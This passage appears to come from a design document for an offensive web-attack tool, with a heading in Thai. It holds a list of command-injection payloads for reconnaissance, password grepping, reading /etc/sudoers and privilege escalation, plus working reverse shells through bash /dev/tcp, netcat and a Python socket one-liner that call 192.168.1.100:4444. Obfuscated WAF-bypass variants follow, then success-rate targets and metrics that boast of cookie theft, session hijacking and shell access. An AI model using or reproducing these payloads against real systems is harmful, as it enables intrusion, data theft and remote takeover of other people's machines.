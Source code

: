 ```python
    "; ls -la",
    "; cat /etc/hosts",
    "; find / -name '*.txt' 2>/dev/null",
    "; grep -r 'password' /etc/ 2>/dev/null",
    
    # Network Operations
    "; ifconfig",
    "; netstat -rn",
    "; arp -a",
    "; ping -c 1 8.8.8.8",
    
    # Privilege Escalation
    "; sudo -l",
    "; find / -perm -4000 2>/dev/null",
    "; cat /etc/sudoers",
    
    # Reverse Shells
    "; bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    "; nc -e /bin/bash 192.168.1.100 4444",
    "; python -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"192.168.1.100\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'",
    
    # WAF Bypass
    "; w\ho\am\i",
    "; w$(echo h)oami",
    "; who`echo am`i",
    "; whoa$@mi",
    
    # More payloads...
]
```

#### 1.2.3 Attack Effectiveness Verification
**ตรวจสอบว่าการโจมตีมีประสิทธิภาพจริง:**

**Success Rate Targets:**
- SQL Injection: > 80% success rate on vulnerable targets
- XSS: > 70% success rate on vulnerable targets  
- Command Injection: > 60% success rate on vulnerable targets
- Authentication Bypass: > 50% success rate
- Zero-Day Discovery: > 10% success rate (realistic for 0-days)

**Real Attack Metrics:**
```python
ATTACK_METRICS = {
    "sql_injection": {
        "payloads_tested": 1000,
        "success_rate": 0.85,
        "avg_response_time": 2.5,
        "data_extracted": True
    },
    "xss": {
        "payloads_tested": 500,
        "success_rate": 0.75,
        "cookie_theft": True,
        "session_hijack": True
    },
    "command_injection": {
        "payloads_tested": 200,
        "success_rate": 0.65,
        "shell_access": True,
        "file_access": True
    },
```